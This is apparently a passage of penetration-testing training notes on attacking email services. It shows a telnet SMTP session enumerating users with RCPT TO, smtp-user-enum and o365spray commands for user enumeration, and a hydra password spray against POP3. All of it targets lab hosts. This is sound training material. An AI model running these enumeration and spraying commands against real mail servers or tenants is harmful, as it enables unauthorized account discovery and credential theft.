 #### RCPT TO Command

```shell
Sauuron@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```


#### smtp-user-enum

```shell
Sauuron@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

#### O365 Spray
[O365spray](https://github.com/0xZDH/o365spray) 
[MailSniper](https://github.com/dafthack/MailSniper)  or [CredKing](https://github.com/ustayready/CredKing) 

```shell
Sauuron@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz

# Enumerate users
Sauuron@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
```


## Password Attacks

```shell-session
Sauuron@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

